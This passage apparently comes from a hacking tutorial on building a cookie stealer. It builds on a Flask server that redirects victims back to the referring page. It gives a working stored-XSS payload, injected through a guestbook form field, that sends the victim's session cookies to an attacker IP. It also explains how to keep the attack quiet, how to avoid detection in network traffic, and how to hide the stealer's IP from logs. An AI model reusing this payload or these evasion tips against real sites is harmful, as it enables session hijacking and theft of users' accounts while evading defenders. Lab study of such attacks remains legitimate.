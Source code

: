 Notice that we've added another import statement at the top of the file:

{% highlight python %}

from flask import redirect

{% endhighlight %}

This allows us to use Flask's redirect function within our code. We've also modified our return statement. It now redirects users back to their referrer instead of rendering a new web page.

{% highlight python %}

    return redirect( request.referrer )

{% endhighlight %}


As you can see in the following video, the attack is significantly more subtle. The user is redirected to the cookie stealer as soon as they load the page, before being redirected nearly instantly back their referrer. 

<iframe width="560" height="315" src="https://www.youtube.com/embed/L4FEw5tDpEE" frameborder="0" allowfullscreen></iframe>

Our improved cookie stealer is not without some problems, however. For one thing, it forms an infinite redirect loop between the target web page and the cookie stealer. The client accesses the page, is redirected to the cookie stealer, is redirected back to the target page, where it is redirected back to the cookie stealer, and so on and so forth.

This is a serious issue for multiple reasons. We end up with lots of duplicate session cookies. This means that it will be hard to locate individual cookies within our 'cookies.txt' file. It also means that the file will get very large, very quickly. The second issue is that the redirect loop generates very loud network traffic. Check out the wireshark output below.

![pwnt]({{ site.baseurl }}images/cookie-stealers/with-redirect/wireshark-output.png)

The constant redirection spread across multiple users amplifies the target webapp's normal HTTP traffic, greatly increasing the chances of the attacker being detected.  In a worse case scenario, where the site is already experiencing high volume, the additional traffic generated by the redirect loop could crash the server.

#Fixing our Improved Cookie Stealer

Fortunately, eliminating the redirect loop is relatively easy to do. We simply expand the malicious Javascript code to check for the existence of a cookie before redirecting the user to our cookie stealer. 

As you can see above, the script only redirects the user to the cookie stealer if the cookie has not been set. The cookie is set immediately before redirection.

{% highlight html %}

mtxMessage=<script>if (document.cookie.indexOf("hasbeenpwnd") == -1){ document.cookie = "hasbeenpwnd=hasbeenpwnd"; document.location = "http://172.16.156.132?cookies="+document.cookie; };</script>&txtName=test&btnSign=Sign+Guestbook

{% endhighlight %}

This is about as good as it gets for redirect based cookie stealers. As you can see in the video, the attack is visually subtle and does not produce excessive network traffic. Our Python script does leave room for improvements, however. We could spoof the referrer in the HTTP header to prevent our cookie stealer's IP address from showing up in log files on the target network. We could also use a 301 (permanent) redirect. Flask issues a 302, or temporary, redirect by default. Temporary redirects cause web browsers to continue to use the old url for future requests, rather than switch to a new one. This means that subsequent requests to the infected page will be made my first sending a request to our Cookie Stealer server. These improvements are left up to the reader as exercises.
